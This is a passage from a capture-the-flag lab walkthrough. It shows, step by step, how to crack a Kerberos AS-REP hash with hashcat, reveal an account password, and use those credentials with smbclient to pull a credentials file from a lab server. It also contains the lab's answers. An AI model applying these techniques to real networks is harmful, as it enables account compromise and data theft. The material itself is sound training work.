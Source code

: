 `svc-admin` &uarr;

### Looking at the Hashcat Examples Wiki page, what type of Kerberos hash did we retrieve from the KDC? (Specify the full name)

`Kerberos 5 AS-REP etype 23` &darr;

![krb5asrep](https://amirr0r.github.io/assets/img/thm/windows/attackive-directory/krb5asrep.png)

### What mode is the hash?

`18200` &uarr;

### Now crack the hash with the modified password list provided, what is the user accounts password?

```bash
$ hashcat -m 18200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
...
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:b4c31112ac39aae6cc44a1ee38b898d8$cbdf8ee2166813e2ba6fe8e385f1469d3dbeed4a676a9068c528ab383cf9ae32bffe15ef9b35758c7a2a00c800752004aba07284913712bb68eb4e8f78f41a050bc87f8e3d8599817efcac36b410e56b5927564929f7e5c61b1179db7dd4e6a97e8de381244e145bc0562d31b261f9bbf945f41b89c9a9b0875e35bc35456518acac08a79e03948fd9906eb72f3fbe2a88399f4c1a54f7f2448d79e20979048ff3c4053527c582677c7403a02615a92d8e204c756645849112f8de087e1791909dcf5945a93fffadc60fe94a54f834d4794dd5fce7d36fceb2ac2d591a222b360b0ddcd085aaa7f753f5e868ffa01f3cc4a8:management2005
..
```

___

## Enumration (Back to the Basics)

### Using utility can we map remote SMB shares?

`smbclient`

###  Which option will list shares?

`-L`

### How many remote shares is the server listing?

There are **6**

![smbclient](https://amirr0r.github.io/assets/img/thm/windows/attackive-directory/smbclient.png)

### There is one particular share that we have access to that contains a text file. Which share is it?

```
$ smbclient //10.10.193.110/backup -U 'svc-admin%management2005'
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Apr  4 21:08:39 2020
  ..                                  D        0  Sat Apr  4 21:08:39 2020
  backup_credentials.txt              A       48  Sat Apr  4 21:08:53 2020

                8247551 blocks of size 4096. 3930770 blocks available
smb: \> get backup_credentials.txt 
getting file \backup_credentials.txt of size 48 as backup_credentials.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
```
